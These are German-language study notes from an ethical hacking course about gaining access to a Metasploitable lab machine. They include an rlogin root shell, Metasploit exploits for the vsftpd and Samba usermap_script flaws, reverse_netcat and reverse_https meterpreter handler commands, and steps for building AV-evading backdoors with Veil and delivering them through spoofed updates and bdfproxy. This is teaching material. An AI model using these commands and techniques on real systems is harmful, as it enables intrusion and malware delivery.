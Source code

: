 ```yaml
---
title: Gaining Access
---
```




# Gaining Access

Video 58

Jedes elektronische Gerät ist ein Computer (Betriebssystem, Installierte Programme, Konfigurationen, User).

Zwei Ansätze:

- Server Side: Nur IP Adresse bekannt. Ohne user interaction.
- Client Side: User Interaktion notwendig (trojan, social engineering)



# Metasploitable

Video 59

Download und installieren (mit VmWare)



# Server Side Attacks

## Information Gathering

- Default Passwords
- mis-configured services, e.g. "r" Service auf Ports 512, 513, 514
  - services sind dazu da um Zugriff auf den Computer zu erlauben
- Services die backdoors enthalten.
- code execution vulnerablities



## Video 61, 5:00

zenmap (nmap) auf metasploitable

512/tcp port: Rexec, Remote Process Execution [[wikipedia](https://de.wikipedia.org/wiki/Liste_der_standardisierten_Ports#300_%E2%80%A6_599)]

Google: "netkit-rsh rexecd"

`netkit-rsh` ist der Ubuntu Paketname. Verbindung mit `rsh-client` 

Unter Kali:

```sh
$ apt install rsh-client
$ rlogin --help
$ rlogin -l root <metasploitable-ip>
```

Keine Frage nach Passwort. Dann bekammt man eine root shell auf Metasploitable

```
id
pwd
ls
uname -a
```

D.h. root Kontrolle über den Zielrechner wegen Fehler in der Konfiguraiton (misconfiguration).



## Video 62 – backdoor

Nutzen eines backdoors (geheime Funktion in einem normalen Programm).

Google `vsftpd 2.3.4`

- [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757)

Google `vsftpd 2.3.4 exploit`

- [Rapid7 VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
  Rapid7: creator of metasploit, Seite beschreibt das exploit modul
- [CVE-2011-2523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523), [CVE=Common Vulnerabilities and Exposures](https://www.redhat.com/en/topics/security/what-is-cve)

![image-20210825104413023](fig/image-20210825104413023.png)



Video 62, 4:28 – verwenden von metasploit



## Video 63 – Code Execution Vulnerability

![image-20210825110501454](fig/image-20210825110501454.png)

- [Rapid7: Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)
- [exploit-db.com](https://www.exploit-db.com/exploits/16320)
- [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447)
- [Hintergründe der Schwachstelle](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)

Video 63, 1:57 – verwenden von metasploit

code execution vulnerability: Diese Schwachstelle erlaubt das Ausführen eines kleinen Programms, diese werden als payload bezeichnet. 

Welche payloads man mit einem gewählten exploit in metsploit verwenden kann sieht man mit:

```
msf exploit(usermap_script) > show payloads 
```

>  payloads are small pieces of code that will be executed on the target computer once the vulnerablity has been exploited. [Zaid]

- Bind payloads: Öffnen einen Port am Target Computer, dahinter ist ein Programm, z.B. shell. Verbindung geht vom Angriffs Computer aus.
- Reverse payloads: Starten ein Programm am Target und versuchen eine Verbindung mit dem Angriffs-Computer aufzubauen. Dies erlaubt das umgehen von Firewalls die meist nur ankommende Verbindungen blocken.

```
> set PAYLOAD cmd/unix/reverse_netcat
```

Das setzen der Payload bewirkt dass zusätzliche Optionen gesetzt werden können/müssen (in diesem Fall `LHOST`).

`LPORT` könnte auch auf 80 gesetzt werden, Vorteil dieser wird nicht gefiltert (sonst kein Internet surfen möglich).

![image-20210825120408057](fig/image-20210825120408057.png)



## Video 64/65 – nexpose

Vulnerability Management Framework. Von Rapid7.

8 GB



# Client Side Attacks

Z.B. wenn 

- keine Server Side Attack Schwachstelle gefunden werden kann, oder 
- der Zielrechner nicht im Netz erreicht werden kann.

Bei diesen Angriffen muss der User etwas tun (File öffnen, ....)

Information Gathering ist sehr wichtig, man muss die Person kennen (z.B. welche Websites werden oft verwendet)

## Backdoor

Video 69

Mit Veil Framework

Um backdoors zu erzeugen die nicht von AV erkannt werden.

Muss installiert werden, ist ziemlich umfangreich.

Video 70

- Evasion: generate undetectable backdoors
- Ordnance: create the payloads (z.B. shell, download, ...)

Evasion:

- `list` zeigt alle payloads

Video 71

Evasion...

```
use 15
```

![image-20210826105343399](fig/image-20210826105343399.png)



Zum Testen: virustotal: nicht verwenden weil die Ergebnisse mit AV Herstellern geteilt werden. Alternative: NoDistribute

Video 72

Port öffnen für die Backdoor `go/meterpreter/rev_https`, port 8080

Mit metasploit (gleiche Programmierer wie veil)

```
$ msfconsole
> use exploit/multi/handler
> show options
> set PAYLOAD windows/meterpreter/reverse_https
> set LHOST <local IP>
> set LPORT 8080
> exploit
```

Alle Optionen identisch zur generierten backdoor setzen.



**Video 73** – Using A Basic Delivery Method To Test The Backdoor & Hack Windows 10

Download per Web-Server in `/var/www/html/evil-files`

Output von veil: EXE File in `/var/lib/veil-evasion/output/compiled`

**Video 74** – Deliver the backdoor: Spoof a update

Voraussetzung: MITM

Tool: evilgrade (nicht Kali Standard)

hijack updates of DAP download accelerartor plus



**Video 75** – bdfproxy (nicht Kali Standard), backdoor factory proxy

Voraussetzung: MITM

Downloads werden on the fly mit einer backdoor versehen. Z.B. ein setup kann nach dem Download ausgeführt werden, lädt aber auch eine backdoor. D.h. wird on the fly zum Trojaner.






